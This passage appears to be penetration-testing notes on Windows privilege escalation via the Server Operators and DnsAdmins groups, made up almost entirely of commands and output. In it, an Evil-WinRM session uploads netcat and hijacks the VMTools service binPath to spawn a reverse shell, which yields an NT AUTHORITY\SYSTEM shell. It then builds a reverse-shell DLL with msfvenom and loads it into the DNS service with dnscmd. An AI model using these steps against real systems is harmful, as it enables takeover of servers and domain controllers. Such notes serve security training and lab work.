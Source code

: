 ```powershell
...
Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
```
```powershell
*Evil-WinRM* PS C:\temp> upload nc64.exe
```
```powershell
*Evil-WinRM* PS C:\temp> sc.exe config VMTools binPath="C:\temp\nc64.exe -e powershell.exe <tun0> <port>"
[SC] ChangeServiceConfig SUCCESS
```
```powershell
*Evil-WinRM* PS C:\temp> sc.exe stop VMTools

SERVICE_NAME: VMTools
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```
```powershell
*Evil-WinRM* PS C:\temp> sc.exe start VMTools
```
```bash
➜  rlwrap nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.11.108] 49634
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
nt authority\system
```
## DnsAdmins Group
-> https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise
When we are member of this group we can ask the machine to load an arbitrary DLL file when the service starts so that gives us RCE as SYSTEM. We can re-configure the service and we have the required privileges to restart it.
```bash
➜  msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f dll -o shell.dll
```
```powershell
*Evil-WinRM* PS C:\temp> upload shell.dll
```
```powershell
*Evil-WinRM* PS C:\temp> cmd /c 'dnscmd <DC> /config /serverlevelplugindll C:\temp\shell.dll'

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```
```powershell
*Evil-WinRM* PS C:\temp> sc.exe \\<DC> stop dns

SERVICE_NAME: dns 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
```